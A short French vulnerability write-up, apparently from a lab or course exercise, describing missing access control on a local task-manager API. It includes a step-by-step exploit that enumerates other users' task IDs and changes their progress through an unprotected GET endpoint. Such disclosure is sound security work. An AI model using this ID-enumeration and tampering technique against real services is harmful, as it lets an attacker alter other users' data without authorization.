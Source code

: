 # Faille
La faille est une absence de contrôle d'access sur l'API "api/progress{taskID}/{value}"
# Exploit
1-) S'authentifier en POST via http://localhost:8080/api/id/signup en JSON
avec le corps 
{
  "username":"Boris",
  "password":"pipo"
}
2-) Créer une tâche en POST via http://localhost:8080/api/add en JSON
avec le corps 
{
  "name": "Ma tâche",
  "deadline" : "2069-05-24T12:12:12"
}

3-) Récupérer l'id de ma propre tâche en GET via http://localhost:8080/api/home
l'id de ma tâche est taskId.

4-) Identifier l'id Id de la tâche dont le nom est nomDeLaTacheAModifier
pour les id allant de 0 à taskId, on envoi la requête http://localhost:8080/api/detail/id en GET
 et on obtient l'objet JSON
{
    "id": id,
    "name": "nomDeLaTache",
    "deadline": "date de la tâche",
    "events": [],
    "percentageDone": 0,
    "percentageTimeSpent": 0.0
}
Si nomDeLaTache = nomDeLaTacheAModifier, alors Id = id 

5-) On modifie le pourcentage de la tâche nomDeLaTacheAModifier à 70 en envoyant http://localhost:8080/api/progress/Id/70" en GET

6-) On vérifie que l'attaque a marché en envoyant la http://localhost:8080/api/detail/Id en GET
